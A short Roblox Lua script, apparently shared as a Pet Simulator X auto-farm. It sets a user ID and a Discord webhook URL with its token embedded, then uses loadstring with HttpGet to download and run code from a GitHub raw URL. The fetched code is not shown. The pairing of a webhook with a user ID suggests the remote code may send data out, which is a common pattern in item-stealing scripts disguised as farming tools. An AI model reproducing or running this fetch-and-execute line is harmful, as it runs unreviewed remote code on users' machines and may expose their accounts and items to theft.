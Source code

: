 _G.UserID = 1421711429
_G.WebHook = "https://discord.com/api/webhooks/1078935803536879646/L5dcxTylFEMD7mLVZlBP1-lnl9xzEzycV5mGAQyJ7b7Ij5O_Kru6DYaCMhzGZoSFOOcL"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua", true))()
